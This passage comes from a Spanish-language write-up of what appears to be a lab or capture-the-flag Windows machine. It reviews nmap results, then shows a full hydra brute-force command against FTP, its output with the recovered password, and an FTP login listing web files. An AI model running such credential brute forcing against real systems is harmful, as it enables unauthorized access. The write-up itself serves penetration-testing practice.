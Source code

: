 ```
|   date: 2025-03-25T10:47:54
|_  start_date: 2025-03-25T10:44:37

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.15 seconds
```

Vemos que hay un puerto `80` por lo que podemos creer que hay una pagina web alojada en dicho `Windows`, pero si entramos dentro vemos que hay un `apache2` corriendo con la pagina normal que viene por defecto, por lo que no veremos gran cosa, tambien vemos un puerto `SMB` pero vemos que es `SMBv2` por lo que no tiene ningun exploit asociado, vamos a intentar enumerar recursos compartidos de dicho `SMB` de forma anonima.

Pero veremos que no nos va a enumerar practicamente nada, por lo que tambien vemos que hay un puerto `FTP`, vamos a intentar tirar una fuerza bruta a dicho puerto con `hydra`.

## Hydra (FTP)

```shell
hydra -L <WORDLIST_USERNAMES> -P <WORDLIST_PASSWORDS> ftp://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-25 06:56:05
[DATA] max 64 tasks per 1 server, overall 64 tasks, 43048882131570 login tries (l:8295455/p:5189454), ~672638783306 tries per task
[DATA] attacking ftp://192.168.1.153:21/
[21][ftp] host: 192.168.1.153   login: info   password: PolniyPizdec0211
[STATUS] 5202059.00 tries/min, 5202059 tries in 00:01h, 43048876929511 to do in 137922:34h, 64 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Vemos que nos saco las credenciales del usuario `info` que es el usuario por defecto web de un `Windows Server` por lo que vamos a entrar al `FTP` para ver que vemos.

## FTP

```shell
ftp info@<IP>
```

Metemos como contraseña `PolniyPizdec0211` y veremos que estamos dentro, veremos lo siguiente:

```
227 Entering Passive Mode (192,168,1,153,192,11).
125 Data connection already open; Transfer starting.
dr--r--r--   1 owner    group               0 Jun 14  2024 aspnet_client
-rwxrwxrwx   1 owner    group           11069 Jun 15  2024 index.html
-rwxrwxrwx   1 owner    group          184946 Jun 14  2024 welcome.png
226 Transfer complete.
```
